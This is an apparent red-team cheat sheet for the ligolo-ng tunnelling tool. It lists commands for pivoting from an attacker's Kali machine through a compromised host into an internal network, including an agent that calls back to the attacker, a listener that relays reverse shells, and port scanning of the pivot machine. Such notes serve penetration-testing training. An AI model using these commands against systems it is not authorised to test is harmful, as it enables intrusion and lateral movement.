 # 🛡️ ligolo-ng Cheat Sheet

External Interface: `10.1.1.10/24`  
Internal Interface: `10.1.2.4/24`

## 🖥️ On Kali (Attacker Machine)
1. Create and enable the TUN interface
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip addr show ligolo
```
2. Start the ligolo proxy
```bash
ligolo-proxy -selfcert
# Use -autocert during real red team engagements
```
## 🧩 On Target Machine
3. Run the agent to connect to the attacker
```bash
./agent -connect <kali_ip>:11601 -ignore-cert
# If -autocert was used on the proxy, -ignore-cert is not required
```
## 🔗 On Kali (in ligolo-ng session)
4. Interact with session
```bash
ligolo-ng » session
```
5. Add a route to the internal network
```bash
ip route add 10.1.2.0/24 dev ligolo
```
6. Start the tunnel
```bash
start
```
✅ Tunnel to the internal network is now established.
## 🔄 Reverse Shell from Internal to Attacker (Port Redirection)
7. Setup a listener inside the ligolo-ng session
```bash
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# 0.0.0.0:30000 → Listens on the target machine
# 127.0.0.1:10000 → Redirects traffic to attacker machine

💡 While generating a reverse shell payload:
# Use target machine’s IP and port 30000 (or any random port)
# Traffic will be forwarded to attacker's port 10000 (or any random port)
```
## 📡 Access Pivot Machine’s Ports (Direct Scanning)
8. Add a specific route to access the pivot machine itself
```bash
ip route add 240.0.0.1/32 dev ligolo
# 240.0.0.1 is a special IP address used by ligolo-ng to represent the pivot machine itself (the host where the agent is running).
```
9. Scan the pivot machine using Nmap
```bash
nmap 240.0.0.1
```
🔍 This will reveal open ports on the pivot machine, accessible via the ligolo tunnel.  
🧹 Cleanup – Deleting the ligolo Interface (On Kali)
10. Remove the TUN interface after you're done
```bash
ip link set ligolo down
ip link delete ligolo
# Safely deletes the ligolo TUN interface from your Kali machine.
```
